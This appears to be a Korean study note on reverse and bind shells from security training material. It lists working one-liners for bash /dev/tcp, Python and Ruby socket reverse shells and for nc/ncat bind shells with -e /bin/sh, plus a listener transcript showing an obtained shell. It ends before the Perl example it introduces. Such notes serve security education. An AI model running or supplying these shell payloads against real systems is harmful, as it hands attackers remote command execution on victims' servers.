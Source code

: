 
### Reverse & Bind Shell
임의로 실행할 명령어를 네트워크를 통해 입력하고, 실행 결과를 출력해 공격하는 기법. 
리버스 셸 (Reverse Shell)은 공격 대상 서버에서 공격자의 서버로 셸을 연결하는 것. 
바인드 셸 (Bind Shell)은 공격 대상 서버에서 특정 포트를 열어 셸을 서비스하는 것을 의미


#### Reverse Shell
### sh & Bash
Network Outbound에서 다룬 "/dev/tcp" 또는 "/dev/udp" 경로를 사용해 포트를 서비스하는 서버에 공격 대상 서버의 셸을 실행할 수 있음
아래는 리버스 셸의 예시
경로에 입력한 IP 주소를 가진 서버에서 8080 포트를 열고 기다린 후 Figure 6 명령어를 실행하면 셸을 획득할 수 있음

	#sh & bash를 이용한 리버스 셸

	#공격 대상 서버
	/bin/sh -i >& /dev/tcp/127.0.0.1/8080 0>&1
	/bin/sh -i >& /dev/udp/127.0.0.1/8080 0>&1

	#공격자 서버
	$ nc -l -p 8080 -k -v
	Listening on [0.0.0.0] (family 0, port 8080)
	Connection from [127.0.0.1] port 8080 [tcp/http-alt] accepted (family 2, sport 42202)
	$ id
	uid=1000(dreamhack) gid=1000(dreamhack) groups=1000(dreamhack)

### 언어 사용
파이썬 또는 루비는 명령줄에서 코드를 작성해 실행할 수 있음
공격자는 명령줄에서 소켓을 사용해 리버스 셸 공격이 가능
아래는 각각의 언어로 공격자 서버에서 셸 명령어를 입력할 수 있도록 하는 코드

	#언어를 이용한 리버스 셸

	#파이썬
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

	#루비
	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("127.0.0.1","8080");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	

#### Bind Shell

### nc ( netcat )
nc는 버전에 따라 특정 포트에 임의 서비스를 등록할 수 있도록 "-e" 옵션을 제공
아래는 8080 포트를 열고, "/bin/sh"를 실행하는 명령어

	#nc를 이용한 바인드 셸

	nc -nlvp 8080 -e /bin/sh
	ncat -nlvp 8080 -e /bin/sh

### 언어 사용
펄 (Perl) 스크립트를 작성해서 특정 포트를 셸과 함께 바인딩할 수 있음
아래는 펄 스크립트를 작성해 "/bin/bash"와 함께 포트를 바인딩하는 스크립트
